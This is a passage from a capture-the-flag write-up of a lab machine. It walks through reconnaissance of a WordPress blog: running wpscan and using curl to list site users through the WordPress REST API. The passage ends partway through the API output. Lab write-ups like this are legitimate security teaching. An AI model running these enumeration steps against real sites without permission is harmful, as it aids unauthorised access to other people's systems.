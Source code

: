 ```bash
2020/12/05 04:22:11 Finished
===============================================================
```

I was lucky to find what looked like two potential paths forward, a blog running wordpress and a phpmyadmin panel. I decided to take the happy path aoproach and have a look at the blog to start.

### Investigating the wordpress blog

The wordpress blog appeared pretty bog-standard after opening the page, looking to be nothing more than a default install of wordpress.

![wordpress index](/static/img/internal_http_blog_index.png)

I browsed to a few common wordpress endpoints to confirm that it was that CMS and then chose to run `wpscan` against it to see if anything significant jumped out at me. Soon after, the scan identified that this was wordpress `5.4.2` but gave little else that was actionable for the attack.

With the scan turning up little, I decided to attempt to pull user information from the wordpress api endpoint before looking at other vectors.

```bash
root@kali:~/ctf# curl -sI http://10.10.215.86/blog/?author=1
HTTP/1.1 200 OK
Date: Sat, 05 Dec 2020 04:48:22 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <http://internal.thm/blog/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8

root@kali:~/ctf# curl -s http://internal.thm/blog/index.php/wp-json/wp/v2/users | jq .
[
  {
    "id": 1,
    "name": "admin",
    "url": "http://192.168.1.45/blog",
    "description": "",
    "link": "http://internal.thm/blog/index.php/author/admin/",
    "slug": "admin",
    "avatar_urls": {
      "24": "http://1.gravatar.com/avatar/77d33fec916329cf93f20054b38a86ce?s=24&d=mm&r=g",
```